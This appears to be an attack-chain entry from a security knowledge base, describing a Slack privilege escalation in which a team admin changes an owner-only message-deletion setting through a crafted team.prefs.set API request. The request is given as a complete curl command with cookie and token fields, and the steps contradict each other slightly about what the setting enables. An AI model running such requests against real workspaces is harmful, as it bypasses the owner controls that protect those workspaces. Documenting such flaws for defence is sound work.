

---
tags:
  - privilege-escalation
  - slack
  - api
  - authorization-bypass
type: attack_chain
tools: []
tactics:
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Authenticate-as-Slack-Team-Admin]]'
  - '[[procedures/Modify-Slack-Team-Preferences-via-API]]'
  - '[[procedures/Verify-Privilege-Escalation-as-Team-Owner]]'
step_count: 3
techniques:
  - '[[Exploitation for Privilege Escalation]]'
  - '[[Valid Accounts]]'
updated_at: '2025-12-14T17:28:44.788Z'
description: >-
  Demonstrates privilege escalation in Slack where a team admin modifies
  owner-restricted team preferences to enable message deletion permissions
  team-wide.
skill_level: intermediate
impact_level: high
id: 4fdf26e9-f700-414f-9ad9-bf87250926b0
validated: true
mitre_tactics:
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploitation for Privilege Escalation]]'
  - '[[Valid Accounts]]'
---
# Slack Privilege Escalation via Team Settings API to Enable Message Deletion

Multi-stage attack chain demonstrating a privilege escalation vulnerability in Slack's team settings API, allowing team admins to bypass owner restrictions and enable message deletion permissions across the team.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or API client like curl
- Slack team admin credentials

### Target Environment

- Slack web application
- Access to /admin/settings endpoint
- Network access to teamname.slack.com

### Initial Access Requirements

- Valid team admin account
- No prior owner access needed
- Browser session with cookies

## Detailed Attack Procedures

### Step 1: Authenticate as Team Admin
procedure: [[procedures/Authenticate-as-Slack-Team-Admin]]

**Objective**: Gain authenticated access to the Slack web application as a team admin to prepare for API manipulation.

**Instructions**: Log in to the Slack web interface using team admin credentials to obtain necessary session cookies and authentication token.

**Expected Output**: Successful login with access to team admin dashboard.

**Success Indicators**:
- Dashboard loads with admin privileges visible
- Session cookies and token captured (e.g., via browser dev tools)

### Step 2: Modify Team Preferences via API
procedure: [[procedures/Modify-Slack-Team-Preferences-via-API]]

**Objective**: Send a crafted POST request to escalate privileges by enabling the owner-restricted 'allow_message_deletion' setting.

**Instructions**: Use the captured admin token and cookies to execute [[commands/slack-team-prefs-set]]:

```bash
curl -X POST 'https://teamname.slack.com/api/team.prefs.set?t=1423146704' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Cookie: _ga=GA1.2.630936366.1423056192; a-3204538285=..' \
  -d 'prefs=%7B%22msg_edit_window_mins%22%3A%221%22%2C%22allow_message_deletion%22%3Atrue%7D&token=xoxs-xxxx&set_active=true&_attempts=1'
```

**Expected Output**: API response indicating successful preference update (e.g., {"ok":true}).

**Success Indicators**:
- No authorization error in response
- Setting change reflected in team preferences

### Step 3: Verify Privilege Escalation as Team Owner
procedure: [[procedures/Verify-Privilege-Escalation-as-Team-Owner]]

**Objective**: Confirm the unauthorized change by inspecting settings as the team owner.

**Instructions**: Log in as team owner and navigate to the permissions section to check the updated setting.

**Expected Output**: 'Only administrators may delete messages' checkbox enabled in /admin/settings#permissions.

**Success Indicators**:
- Message deletion permission visible and active
- Owner unable to revert without noticing the change

## Attack Chain Summary

### Key Achievements

1. Bypassed owner-only restrictions using admin access
2. Enabled team-wide message deletion for unauthorized users
3. Demonstrated potential for broader privilege abuse in team management

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation

---
*Last updated: 2023-10-01T00:00:00Z*
